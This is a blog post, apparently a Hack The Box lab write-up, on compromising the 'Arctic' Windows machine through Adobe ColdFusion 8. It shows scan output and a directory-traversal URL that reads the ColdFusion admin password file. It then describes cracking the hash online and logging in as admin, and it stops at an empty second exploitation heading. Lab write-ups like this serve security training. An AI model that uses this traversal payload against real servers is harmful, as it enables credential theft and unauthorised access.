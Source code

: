```yaml
---
layout: post
title:  "HTB Artic Windows"
description : Tools and techniques used, LFI, hashkiller
tags: HTB, Coldfusion, hashkiller
---
```


# HTB Artic
# Recon

```ruby
Nmap scan report for 10.10.10.11
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
# Exploitation
* We noticed that port `8500` is open.This port is used for Adobe ColdFusion.
* We investigate further and we find a web app running.  

![](https://lh3.googleusercontent.com/MPpzTT1fUn_dnDqNFBouPgLrdpz42g_boV6kvtZ3zSICG9i2U-lt3006mkvihoNRm1oSaCHCi8iBmigihL0GfaSm95zNPU9BHLXOcgWb42UHFa_SHej_z9aegRpYcXxP_7n-AlseZt0y055LAPkdgum54nA9qfedtkcGDvXg5bRRPjn59IJtWHyI4QUommXcHA3jauzjo0XfeURw-k-rkL4dEMFmqE55yBRYW288P-Fzp6pB-f38WCBYo2c6-5lLHwVo4QdGCV05ddO7O2yn-xBAV0H-YHQvhaUpQ1CK-roJG0TA_QPONcsTi0NfLvtQwD-MPRswxMdSEPOASC2h1UD4C8NgvERwo8IuruMzy1S2j_aemAmaWLKvxYvQqe7Y83KFa_sfS7IwAetqCKdKbwSMXHWwy1aK1_eWIKWvmVncDqttJKd9OBjq8f6O8IFeNUeCnIfteEXLN4upff6w_dlw7fgcK2z42pEoE1VwRKFsqt5oUMN868TWmQp5EXI3cTGPstS_4zesKMIL_4Mm4hJaY11iYfJt8VYBhTSZB5zo6s-TgW2JU7JwwLI2pq4dC6VMNTZot-Uok4yJLrFsU8i_XQ9Jry6L5YDZBNT76Q6kwgXb2_2M1blO-8SgxhxZUK_z3ezZ8dZTUT8z8jueFt81cjDjutQwZ0Ct50GPVkg5bYl1AaNRRTo=w404-h195-no)

![](https://lh3.googleusercontent.com/1q7e_7yA20GcWefxFljf6vTMus6fJJgTnPKexMrJzFkmB23569xCcwDCI-BxlgO6VorvW1AHHx6WVy8XmLIZIjJDL6T5xcCNhMInaAcYMjI4yqc_LX1ma3krqMY-ODBUBJiGPoYYd883g3XdbqpNfEyGGntGnAvMI94h4r5hgPHo5sfcq4c24qGRygvGLgyy6to6V8Nr3zzGft3GdkfwzND_ZbkpVE_MMiyd0xAWCw_qp3xMIhIpOJjOmV0gGFXuoZtynOWAG7TkAmmAcuLjaqluMPPvYrSxgllQ1bcxYN1pm3geTJ3g3fU69Te6oESiQ9bcLfNOx0DJCxwWtKbhASc7YjjSnU-s-sx-kyl3c55zerlWuJAbEG8_u3aTIfBMOIpBR6rYNQL41UTrMhaCZpwyz1eopzxKtwexZTSBJSqIPgqB3EO3kmCKrBpoe1EZA7nlQh6sjE36lYxnVtzYAIdlRMUewU8yjhLAuXfTbFoJ4yUNZjo10iYnB785EZLzy3XpoHX1a6-tbzV8W3A8Htfa4kvGShj_BiuzEBiK9gl_wrEM1KolRwPToOc9h16EBtJm1F6ATh7Fl3xW8ugovrClcC6w7kL1-IMg0EWyFQC7yffOk-qisVZ7elliubcFO_CoKbygVv0hDn6MO9yq_AppdbZlf23kzdIiDhSboVBc2O98H56vJO8=w523-h297-no)

* Finally we we're able to locate the admin page. This provides us with very important information like the adobe version running.
* Some googlefu reveals that this version of Adobe is vulnerable to LFI.
- PoC:
```
 http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en
```
* So we exploit the admin page to obtain the password hash for the admin user

![](https://lh3.googleusercontent.com/A22EMJ2VPNOYLkGD_fhb8FZODYdwUEF70hiMtKuMPrsFMN2QRrQtiYPrAZPp33oKbh9SUpP9jrDgC_x1KTXY20qqHWWSxcLOL9lrfkiIFqDUSY5CJYu7btbqeHQv82NtXIUW8nzVwX4ZGPfB3dgKSYXyL6QVwqA17I0fRlCcTtMt1LYZoduWkLrUmSsIPys0w-vFox_2FgaB2kakMItBT9Lby4AhQRMGvCfR4CurxMxkSbDohkio8qD54I4Z-aWAxZMdAf9PQzJXxcqLg035_M0_zhpZ30HVVYW3iFZ0I5oC7gPzxmUWESbbEgjgOmfQrowb3VQP2GEK9f-jtYBELSeDJ2KIs_OQ637jWgZQ2zu6L1PRtiOY7ah3QtscgFKicn52Q29XYw059K_SZX3sKJpPq-HwbnO2RuQJhjH1v7kvqm7XRiy35PKM7lA-bKZoBwLeDj54Gm48pQicOGWjWf8780LePz9-5GEQqjBK8JA1z4Pl6oq5rDVbcv5wz3HUnrZCYZjbVbwFnMhxmfOEvkY6tPg1eKtHjA4DoaqFIh0Zf2c-FMiN4wvwpE3g2Vs8v765muJEwQAWcFm5I3ImRUIxQ-7fw_qiuwFSnWbGeTjQnL58sJ63natllTMtoOW5mwXS754quSI4PP95T2H2bdJhwVRQngAqL6Vc2u0AS6b7znw0IGxv4yI=w520-h464-no)



* We crack the hash using a cracking website `https://hashkiller.co.uk/Cracker` and we our SHA1 password `happyday`

* We login using the admin password

![](https://lh3.googleusercontent.com/a0jn07Idy0VE8z77tsRLB2OsJdk07-9WyiXiFDOAAMECzfW5yClAyQDBtR911AtC2hMcV0HXk9CfnRwfl6OV_Xxdn-UGHlsrFArhFATwdMwOmobatWaPjsJFaSDpRPVnWmDWYRdokCne1PJXcR_fx-OOQce5W2mCNqYmyu2qzF4eYyQPfXzukDhDkIS2Sn05EYpeNa8C0spY-J08tPVIryxPWDs5Ddb1WvKqCRT7gWYPT0Aml-LQ5Ofq2bDFrhhwtUQOu2V9FYS84p06CV7DWuxGqtRV5sR5MHDTnnoWvawDyT2MeRG_uDlFL0JfEIx7A4_zVyifA3F9GPbSzG9pUUdPh26IWJZQKDRRNZXjo7ZqbdWnVtFVEC0JNFUqQqe3PR8vs2eIGN3aDpKo-_SVPUL44myOU8zr1EKqr5uSR2gNiPmB-P-2F8p5OY5FS54owfScwuJsyNh6TcR1_kpX4uLrjgVfVoz5GBjORHaXPbKPWh2yNlMipSRk30mUafo1ObJIw-ZCy5nWHW2dTw-r6Qy4kJzRdkPHAcvSkRN3lkXvtkkbTpS_IhS8FiBSd8-TvFf4k7hktXmIqVonquQY-82uhQOQhkj9fkJJZDdbce304fs__zSyT9QOCH43ZLQt3nJn4cCW3JXUhE9SMfaXfN6eVOtWZMbWSJT9iJbbAjVIKXunlUQXyvw=w601-h491-no)

# Exploitation
